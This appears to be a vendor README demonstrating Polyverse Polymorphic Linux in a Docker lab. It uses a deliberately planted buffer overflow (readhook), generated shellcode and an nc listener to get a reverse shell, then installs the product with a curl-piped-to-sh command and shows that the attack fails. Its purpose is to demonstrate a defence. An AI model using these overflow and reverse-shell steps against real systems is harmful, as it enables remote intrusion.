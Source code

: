# Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
```
docker run --rm -it -p 8080:8080 alpine:3.7 sh
```
### (2) We'll need curl and wget
#### (2) Alpine
```
apk update && apk add curl socat wget
```
#### (2) CentOS
```
yum update -u && yum install -y curl nc socat wget
```
#### (2) Ubuntu
```
apt-get update -y && apt-get install -y curl netcat socat wget
```
### (2) Get readhook components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```
### (2) Start socat with readhook in front of libc
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
```
### (2) Re-start socat with minimal readhook in front of libc
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
echo $shellCode | nc localhost 8080
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Replace standard packages with Polymorphic Linux
```
# (Execute the command given at the end of the previous step)
```
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Try the shellCode with Polymorphic Linux
```
echo $shellCode | nc localhost 8080
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
